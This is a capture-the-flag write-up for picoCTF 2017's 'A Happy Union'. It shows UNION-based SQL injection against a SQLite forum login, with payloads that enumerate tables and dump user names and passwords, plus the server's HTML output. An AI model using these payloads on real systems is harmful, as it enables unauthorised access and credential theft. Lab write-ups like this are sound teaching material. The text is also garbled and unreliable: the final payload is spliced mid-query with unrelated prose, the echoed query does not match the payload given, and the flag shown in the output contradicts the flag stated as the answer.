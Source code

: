 # PicoCTF_2017: A Happy Union

**Category:** Web Exploitation
**Points:** 110
**Description:**

>I really need access to [website](http://shell2017.picoctf.com:23598/), but I forgot my password and there is no reset. Can you help? I like lite sql :)

**Hint:**

>A SQL union allows a single query to select values from multiples tables.

## Write-up

I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)

```html
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
```

A happy union? It has to do something with  **union sql injection**. Let's firstly check, how bad can we go when registering a new user.

```html
username: ' OR 1 = 1
password: asd
```

Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create  **UNION**  injection.

```sql
select id, user, post from posts where user = '' OR 1 = 1';
```

Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's  **sqlite**  it won't be that hard.

```sql
' union SELECT null, null, name FROM sqlite_master;--
```

We have to use 2  **null**  columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case.

```html
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
```

Great, we have  **users**  table, from which we can now try to get the flag. Here we go with the last query.

```sql
' union SELECTSQLite injection tested here. Create a account with username `' or user like '' UNION SELECT '1', user, pass, null FROM users; --
```

User, pass column names? Let's check that out.

```html
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b6e6a3cd8e3f1fe5f6109d1618bddbd1}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
```

Great SQL Injection challenge!`, password not important.

Therefore, the flag is `flag{union?_why_not_onion_a69464d4869c743e26c08df8686e4003}`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3MzQ5MTczMCw2NzM1MjUxMzNdfQ==
-->
